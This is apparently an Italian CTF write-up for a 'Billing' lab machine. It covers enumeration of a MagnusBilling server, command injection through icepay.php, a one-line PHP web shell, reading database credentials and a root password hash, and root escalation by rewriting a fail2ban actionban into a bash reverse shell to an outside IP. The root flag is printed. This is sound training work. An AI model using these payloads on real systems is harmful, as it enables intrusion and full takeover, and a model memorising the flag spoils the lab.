





# Billing

Iniziamo enumerando i servizi presenti nella macchina utilizzando `nmap` e trovando quali porte sono attive sulla macchina.

```bash
kali@kali:~/Desktop/CTF/Billing$ sudo nmap -sS -sV -sC -p- billing.local -o nmap.txt
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-01 10:37 -0500
Nmap scan report for billing.local (10.128.134.137)
Host is up (0.031s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 da:d9:d9:e1:d3:02:ac:b3:ac:7c:b1:77:6f:00:fe:b9 (ECDSA)
|_  256 8d:ba:1e:b1:0b:0c:c5:25:63:37:d1:25:6b:22:e4:a4 (ED25519)
80/tcp   open  http     Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Did not follow redirect to ./mbilling
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
3306/tcp open  mysql    MariaDB 10.3.23 or earlier (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Servizio | Porta | Versione | Note |
| --- | --- | --- | --- |
| ssh | 22 | OpenSSH 9.2p1 |  |
| http | 80 | Apache httpd 2.4.62 |  |
| mysql | 3306 | MariaDB 10.3.23 |  |
| asterisk | 5038 | Asterisk Call Manager 2.10.6 | Canale di comunicazione tra server Asterik e il software gestionale. Permette di controllare tutto il centralino, grave errore lasciarlo aperto. Questo server quindi gestisce i telefoni. possiamo inviare comandi diretti al centralino |

Eseguiamo un directory discovery sul servizio web (**http**)

```bash
kali@kali:~/Desktop/CTF/Billing$ ffuf -u http://billing.local/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -e .php,.txt,.bak -c
akeeba.backend.log      [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 29ms]
development.log         [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 29ms]
index.php               [Status: 302, Size: 1, Words: 1, Lines: 2, Duration: 32ms]
index.php               [Status: 302, Size: 1, Words: 1, Lines: 2, Duration: 35ms]
production.log          [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 29ms]
robots.txt              [Status: 200, Size: 37, Words: 3, Lines: 5, Duration: 31ms]
robots.txt              [Status: 200, Size: 37, Words: 3, Lines: 5, Duration: 31ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 31ms]
spamlog.log             [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 34ms]

```

Credo inoltre che i `.log` siano dei falsi positivi.

Ho notato che il login web soffre di **pass-to-hash** cioè conoscendo l’hash della password, è possibile accedere alla dashboard, questo perchè i dati sono **hashati** in frontend



Ho notato inoltre che la pagina “base” non è solamente **`/`** ma `/mbilling/`quindi rieseguendo **ffuf**

```bash
kali@kali:~/Desktop/CTF/Billing$ ffuf -u http://billing.local/mbilling/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -e .txt,.bkp,.php,.md -c 
**LICENSE                 [Status: 200, Size: 7652, Words: 1404, Lines: 166, Duration: 30ms]**
README.md               [Status: 200, Size: 1995, Words: 152, Lines: 66, Duration: 30ms]
akeeba.backend.log      [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 30ms]
**archive                 [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 33ms]**
**assets                  [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 29ms]**
**cron.php                [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 37ms]**
development.log         [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 30ms]
**fpdf                    [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 32ms]**
**index.html              [Status: 200, Size: 30760, Words: 1501, Lines: 137, Duration: 34ms]
index.php               [Status: 200, Size: 663, Words: 46, Lines: 1, Duration: 49ms]
index.php               [Status: 200, Size: 663, Words: 46, Lines: 1, Duration: 44ms]
lib                     [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 29ms]**
production.log          [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 32ms]
**protected               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 32ms]**
**resources               [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 34ms]**
spamlog.log             [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 32ms]
**tmp                     [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 31ms]**
:: Progress: [19000/19000] :: Job [1/1] :: 1324 req/sec :: Duration: [0:00:18] :: Errors: 0 ::

```

Ripeto, secondo me i `.log` sono rumore errato.

Il servizio web usa il CMS MagnusBilling 7, come visibile  consultando `README.md` , cercando troviamo una vulnerabilità di tipo **Broken Access** https://github.com/advisories/GHSA-jgfv-5w6w-r347 con CVE **CVE-2025-52289** ma anche una vulnerabilità di tipo **OS Command Injection** con CVE  **CVE-2023-30258** che leggendo la descrizione di quest’ultimo si basa su un bug nel file `lib/icepay/icepay.php` effettivamente presente nella nostra applicazione



Il *bug* si basa sul parametro `democ` non sanitizzato che è poi passato a `exec()` che quindi permette di ottenere privilegi dell’utente che esegue il server web `asterisk` o `www-data` 

Per interagire meglio con il server ho creato un file `PHP` che possa eseguire comandi nel sistema

```bash
echo '<?=`$_GET[0]`?>' > test.php
```



La prima flag si trova in



```bash
cd /home/magnus
ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
user.txt
cat user.txt
THM{*****************************}
```

Da `/var/www/html/mbilling/protected/config/main.php` vediamo che importa un file di configurazione `$configFile = '/etc/asterisk/res_config_mysql.conf';`Leggendolo, scopriamo che si trattano delle credenziali del database MySQL/MariaDB

```bash
cat /etc/asterisk/res_config_mysql.conf
[general]
dbhost = 127.0.0.1
dbname = mbilling
dbuser = mbillingUser
dbpass = BLOGYwvtJkI7uaX5
```

Con queste credenziali, da dentro la shell aperta da metasploit, e non da locale, poichè le connessioni al database da fonti esterne sono disabilitate, possiamo accedere al database MariaDB

```bash
asterisk@ip-10-128-186-68:/var/www/html/mbilling/protected/config$ mariadb -h 127.0.0.1 -u mbillingUser -p mbilling
mariadb -h 127.0.0.1 -u mbillingUser -p mbilling
Enter password: BLOGYwvtJkI7uaX5

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 44
Server version: 10.11.11-MariaDB-0+deb12u1 Debian 12

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [mbilling]>
```

Listando i database

```bash
MariaDB [mbilling]> SHOW DATABASES;
SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mbilling           |
+--------------------+
2 rows in set (0.001 sec)
```

Conoscendo quindi questo database possiamo listare tutte le tabelle presenti con

```bash
MariaDB [mbilling]> SHOW tables FROM mbilling
```

Che restituisce 94 tabelle tra cui `pkg_user` 

```bash
MariaDB [mbilling]> SELECT * FROM pkg_user
+----+---------+----------+----------------+---------+----------+----------+------------------------------------------+--------+--------+---------------------+---------------------+---------------------+--------------+------------+----------+-----------+---------+------+--------------+-------+---------+---------+-------+--------+-------+--------+------+--------------+-----------------+-----------------+--------------+------+----------------+---------------------+----------+-------------+----------+--------+----------+---------------------+---------------------+---------------------------+-------------+-----------------+--------------+----------+----------+-------------+---------------+--------+------------+-------------+---------------------+----------------------------+--------------------------+------+---------------+------------+-----------------+-----------+----------+-----------------+--------------------+-----------------------------+-------------------------+-----------------------------+-----------------------+---------------------------+-------------------------------+----------------------+----------------+--------------------+------------------------+-----------------+----------------+-----------+--------------------+
| id | id_user | id_group | id_group_agent | id_plan | id_offer | username | password                                 | credit | active | creationdate        | firstusedate        | expirationdate      | enableexpire | expiredays | lastname | firstname | address | city | neighborhood | state | country | zipcode | phone | mobile | email | email2 | vat  | company_name | commercial_name | company_website | state_number | dist | contract_value | lastuse             | typepaid | creditlimit | language | redial | loginkey | last_notification   | credit_notification | credit_notification_daily | restriction | callingcard_pin | prefix_local | callshop | plan_day | record_call | active_paypal | boleto | boleto_day | description | last_login          | googleAuthenticator_enable | google_authenticator_key | doc  | id_sacado_sac | disk_space | sipaccountlimit | calllimit | cpslimit | calllimit_error | mix_monitor_format | transfer_show_selling_price | transfer_bdservice_rate | transfer_dbbl_rocket_profit | transfer_bkash_profit | transfer_flexiload_profit | transfer_international_profit | transfer_dbbl_rocket | transfer_bkash | transfer_flexiload | transfer_international | restriction_use | email_services | email_did | inbound_call_limit |
+----+---------+----------+----------------+---------+----------+----------+------------------------------------------+--------+--------+---------------------+---------------------+---------------------+--------------+------------+----------+-----------+---------+------+--------------+-------+---------+---------+-------+--------+-------+--------+------+--------------+-----------------+-----------------+--------------+------+----------------+---------------------+----------+-------------+----------+--------+----------+---------------------+---------------------+---------------------------+-------------+-----------------+--------------+----------+----------+-------------+---------------+--------+------------+-------------+---------------------+----------------------------+--------------------------+------+---------------+------------+-----------------+-----------+----------+-----------------+--------------------+-----------------------------+-------------------------+-----------------------------+-----------------------+---------------------------+-------------------------------+----------------------+----------------+--------------------+------------------------+-----------------+----------------+-----------+--------------------+
|  1 |       1 |        1 |           NULL |    NULL |     NULL | root     | d8c55b020bca07272d4cf3a46d693bb6ebafe3e1 | 0.0000 |      1 | 0000-00-00 00:00:00 | 0000-00-00 00:00:00 | 0000-00-00 00:00:00 |            0 |          0 |          |           |         |      | NULL         |       |         |         |       |        |       |        | 0    |              | NULL            |                 | NULL         | NULL |              0 | 0000-00-00 00:00:00 |        0 |           0 | en       |        |          | 2024-09-09 03:01:02 |                  10 |                         0 |           0 |          534565 | 21           | 0        |        1 |           0 |             0 |      0 |          0 |             | 0000-00-00 00:00:00 |                          0 |                          | NULL |          NULL |         -1 |              -1 |        -1 |       -1 | 503             | gsm                |                           0 |                       0 |                           0 |                     0 |                         0 |                             0 |                    0 |              0 |                  0 |                      0 |               1 |              1 |         1 |                 -1 |
+----+---------+----------+----------------+---------+----------+----------+------------------------------------------+--------+--------+---------------------+---------------------+---------------------+--------------+------------+----------+-----------+---------+------+--------------+-------+---------+---------+-------+--------+-------+--------+------+--------------+-----------------+-----------------+--------------+------+----------------+---------------------+----------+-------------+----------+--------+----------+---------------------+---------------------+---------------------------+-------------+-----------------+--------------+----------+----------+-------------+---------------+--------+------------+-------------+---------------------+----------------------------+--------------------------+------+---------------+------------+-----------------+-----------+----------+-----------------+--------------------+-----------------------------+-------------------------+-----------------------------+-----------------------+---------------------------+-------------------------------+----------------------+----------------+--------------------+------------------------+-----------------+----------------+-----------+--------------------+

```

La password è hashata, ma se ricordiamo, prima abbiamo visto come è possibile fare un attacco di tipo `pass-the-hash` quindi loggarici sapendo solo l’hash `d8c55b020bca07272d4cf3a46d693bb6ebafe3e1` e l’username `root`. 



Non sembra essere la strada corretta. non funziona..

Vediamo con `sudo -l` 

```bash
asterisk@ip-10-128-186-68:/var/www/html/mbilling/protected/config$ sudo -l
sudo -l
Matching Defaults entries for asterisk on ip-10-128-186-68:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-128-186-68:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

Che possiamo eseguire `fail2ban-client` con permessi di `root` senza usare la password, il che introduce una “””vulnerabilità””” (secondo i programmatori, è una *feature* cioè è ovvio che se esegui con **sudo** avrai permessi massimi, e viene consideratà in realtà una misconfig) con CVE **CVE‑2025‑45311**

```bash
asterisk@ip-10-128-186-68:/var/lib/asterisk$ sudo fail2ban-client restart
sudo fail2ban-client restart
Shutdown successful
2026-11-04 11:06:57,376 fail2ban.configreader   [7121]: WARNING 'allowipv6' not defined in 'Definition'. Using default one: 'auto'
Server ready

asterisk@ip-10-128-186-68:/var/lib/asterisk$ sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'bash -i >& /dev/tcp/192.168.131.79/4446 0>&1'"
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'bash -i >& /dev/tcp/192.168.131.79/4446 0>&1'"
/bin/bash -c 'bash -i >& /dev/tcp/192.168.131.79/4446 0>&1'

asterisk@ip-10-128-186-68:/var/lib/asterisk$ sudo /usr/bin/fail2ban-client set sshd unbanip 127.0.0.1

sudo /usr/bin/fail2ban-client set sshd unbanip 127.0.0.1
0
asterisk@ip-10-128-186-68:/var/lib/asterisk$ sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1

sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1

```

- `sudo -n fail2ban-client status` ha confermato che l'utente `asterisk` poteva eseguire `fail2ban-client` come root senza password. Questo è il presupposto della vulnerabilità: chi controlla `fail2ban-client` controlla azioni eseguite come root.
- `sudo fail2ban-client restart` ha ricaricato il servizio e la configurazione, necessario perché le modifiche alle azioni vengano applicate correttamente.
- Con `fail2ban-client set sshd action iptables-multiport actionban "..."` è stata sovrascritta l'azione di ban della jail `sshd`. Al posto del comando originale è stato inserito:
    
    `sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'bash -i >& /dev/tcp/192.168.131.79/4446 0>&1'”` che apre una reverse shell.
    
- Con `fail2ban-client set sshd unbanip 127.0.0.1` (reset) e poi `banip 127.0.0.1` è stato forzato un ban. Fail2ban, girando come root, ha eseguito l'actionban malevolo.

Dalla **reverse shell** appena aperta abbiamo letto il valore:

```bash
kali@kali:~$ nc -lvnp 4446
root@ip-10-128-186-68:/# whoami
whoami
root
root@ip-10-128-186-68:/# cd /root
cd /root
root@ip-10-128-186-68:~# ls
ls
filename
passwordMysql.log
root.txt
root@ip-10-128-186-68:~# cat root.txt
cat root.txt
THM{33ad5b530e71a172648f424ec23fae60}
root@ip-10-128-186-68:~# 

```